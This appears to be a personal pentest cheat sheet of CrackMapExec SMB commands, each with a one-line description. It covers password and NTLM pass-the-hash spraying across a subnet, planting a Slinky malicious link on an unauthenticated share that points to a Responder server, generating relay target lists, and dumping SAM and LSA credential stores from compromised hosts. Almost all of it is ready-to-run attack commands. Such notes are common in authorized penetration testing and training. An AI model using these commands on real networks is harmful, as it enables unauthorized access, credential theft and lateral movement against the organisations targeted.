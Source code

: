 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Spray the network using SMB with domain credentials:
~~~bash
crackmapexec smb 10.0.0.0/24 -u username -d domain -p Password
~~~

Spray the network using SMB with a local user and NTLM hash:
~~~bash
crackmapexec smb 10.0.0.0/24 -u username -H hash --local-auth
~~~

Use the Slinky SMB module to set up a malicious link on an unauthenticated share:
~~~bash
crackmapexec smb <target ip> -u Guest -p “” -M slinky -o server=responder_ip name=some_unique_name
~~~

Generate a SMB target list:
~~~bash
crackmapexec smb <CIDR> --gen-relay-list targets.txt
~~~

Spray a target list with a local admin's hashed NTLM credentials:
~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth
~~~

Spray a target list with a local admin's hashed NTLM credentials and dump SAM (LOCAL) on any target that the user has Admin access to:
~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --sam
~~~

Spray a target list with a local admin's hashed NTLM credentials and dump LSA (Domain/Cached) on any target that the user has Admin access to:
~~~bash
crackmapexec smb targets.txt -u Administrator -H <NT Hash> --local-auth --lsa
~~~

Generate a Relay list based upon prior scan results and tee the command output to a new file:
~~~bash
crackmapexec smb ../scans/nmap-grep-[date]/smb-hosts.txt --gen-relay-list cme_relay.txt | tee cme.out
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
